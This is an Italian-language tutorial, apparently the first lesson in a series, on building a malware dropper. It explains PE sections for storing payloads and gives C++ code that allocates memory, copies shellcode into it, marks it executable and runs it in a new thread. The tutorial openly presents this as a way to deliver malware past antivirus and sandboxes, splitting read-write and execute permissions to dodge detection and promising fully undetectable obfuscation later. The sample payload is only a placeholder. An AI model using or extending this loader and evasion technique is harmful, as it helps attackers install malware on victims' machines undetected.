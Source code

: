## Lezione 1: Droppers ##
### 1. Cosa è un Dropper ###
I **droppers** sono dei programmi creati principalmente con l’obiettivo di diffondere un malware, un virus o una backdoor verso un computer bersaglio in modo tale da evitarne, attraverso l’utilizzo di sofisticate tecniche di offuscamento, il rilevamento da parte degli antivirus (e Sandbox). Un dropper sofisticato può essere utilizzato anche per sopravvivere al riavvio della macchina (**persistenza**) o per eseguire una ricognizione approfondita locale e della rete della vittima (***movimento laterale***).

### 2. Dove memorizzare il payload? ###
Ora immergiamoci nello sviluppo del dropper. Il payload, nel caso di un dropper EXE, può essere memorizzato in una delle tre sezioni di un file eseguibile (PE – Portable Executable). La scelta della sezione (sections) da utilizzare varierà drasticamente il codice di implementazione. Diamo uno sguardo alle sezioni disponibili in un file PE:

![image](https://user-images.githubusercontent.com/85390166/180658227-f0e867e9-e381-4ad2-9712-998a9db2d1b1.png)

- .text: E’ necessario inserire il payload in una delle funzioni del codice (es: main / Il nostro caso).
- .data: Il modo più semplice per farlo è inserire il payload in una variabile globale.
- .rsrc: E’ necessario inserire il payload all’interno delle risorse (es: icone, file manifest e immagini).

Ora analizziamo le funzioni WINAPI che il nostro dropper utilizzerà per il rilascio del payload.

### 3. WINAPI ###
Le WINAPI utilizzate nel nostro Dropper sono le seguenti: VirtualAlloc, RtlMoveMemory, VirtualProtect, CreateThread, WaitForSingleObject. Di seguito l’analisi dettagliata delle singole API.
#### 3.1 VirtualAlloc ####
Tale funzione riserverà una regione di pagine (memory buffer) nello spazio degli indirizzi virtuali del processo chiamante per il nostro payload. E’ un modo che ci aiuta a “creare” lo spazio in memoria che conterrà il nostro payload.
Sintassi:
```cpp
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```
#### 3.2 RtlMoveMemory ####
E’ una API che ci permette di copiare un blocco di memoria sorgente in un blocco di memoria di destinazione. Nel nostro caso andremo a copiare  il payload nel nostro nuovo buffer creato.
```cpp
VOID RtlMoveMemory(
  _Out_       VOID UNALIGNED *Destination,
  _In_  const VOID UNALIGNED *Source,
  _In_        SIZE_T         Length
);
```
#### 3.3 VirtualProtect ####
Una funzione fondamentale per il cambio delle protezioni delle regioni di memoria degli indirizzi virtuali. Lo utilizzeremo per rendere eseguibile il nostro nuovo buffer creato.
```cpp
BOOL VirtualProtect(
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);
```
#### 3.4 CreateThread ####
Una funzione semplice da comprendere. Crea un Thread del payload da eseguire nello spazio degli indirizzi virtuali del processo chiamante.
```cpp
HANDLE CreateThread(
  [in, optional]  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  [in]            SIZE_T                  dwStackSize,
  [in]            LPTHREAD_START_ROUTINE  lpStartAddress,
  [in, optional]  __drv_aliasesMem LPVOID lpParameter,
  [in]            DWORD                   dwCreationFlags,
  [out, optional] LPDWORD                 lpThreadId
);
```
#### 3.5 WaitForSingleObject ####
Attende finché l’oggetto specificato non si trova nello stato segnalato o finché non scade l’intervallo di time-out. Verrà utilizzato per verificare che non vi siano errori con il cambio di protezione apportato da VirtualProtect e che quindi il Thread del payload può essere creato.
```cpp
DWORD WaitForSingleObject(
  [in] HANDLE hHandle,
  [in] DWORD  dwMilliseconds
);
```
### 4. Aggiungiamo il nostro payload ###
Per prima cosa abbiamo la necessità di aggiunge al nostro dropper il codice del payload. Per far ciò ci basterà dichiarare un char[] che conterrà l’esadecimale dell’intero codice del nostro payload.
**NB:** In questa sezione, attraverso l’uso di tecniche di offuscamento, è possibile codificare il codice del payload per renderlo FUD (fully undetectable). Affronteremo questo argomento nei prossimi episodi.
Implementiamo la procedura:
```cpp
void * exec_mem;	
DWORD flOldProtect = 0;
unsigned char payload[] = { // Qui andrà posizionato il nostro codice.
	0x90,		// NOP
	0x90,		// NOP
	0xcc,		// INT3
	0xc3		// RET
};
unsigned int dwSize = sizeof(payload) / sizeof(char); // Calcoliamo le dimensioni del nostro payload (verrà utilizzato successivamente per l’allocazione della memoria necessaria a contenere il nostro payload).
```
### 5. Allocazione del memory buffer ###
Ora bisogna allocare un memory buffer in modo da “trasferire” in memoria il nostro payload da avviare successivamente.
Implementiamo la procedura:
```
// Allocazione della memoria necessaria a contenere il payload (memory buffer)
exec_mem = VirtualAlloc(0, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
// Copia del payload nel nuovo buffer
RtlMoveMemory(exec_mem, payload, dwSize);
```
### 6. Avvio del payload ###
Bene, siamo giunti al termine di questo episodio. Ora non ci resta che avviare il payload grazie all’uso di un Thread. 
Implementiamo la procedura:
```cpp
// Make new buffer as executable
BOOL bStatus = VirtualProtect(exec_mem, dwSize, PAGE_EXECUTE_READ, &flOldProtect);
// If all good, run the payload
if ( bStatus != 0 ) {
HANDLE th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
	WaitForSingleObject(th, -1);
}
```
**INFO:** Leggendo il sorgente di questa sezione, ci si potrebbe chiedere “perché la protezione di memoria PAGE_EXECUTE_READWRITE è stata impostata nella funzione VirtualProtect e non in VirtualAlloc assieme a MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE?”.
La ragione è semplice: Alcuni analisti (o gli engine degli AV), poiché è abbastanza insolito che il processo abbia necessità di avere una zona di memoria che sia leggibile, scrivibile ed eseguibile allo stesso tempo, potrebbero identificare come malevola tale “firma”. Quindi per aggirare il rilevamento suddividiamo il processo di allocazione di memoria in due fasi distinte: allocamento come leggibile e scrivibile e poi, infine, come eseguibile.
Nei prossimi episodi proveremo a inserire un payload nella sezione rsrc.
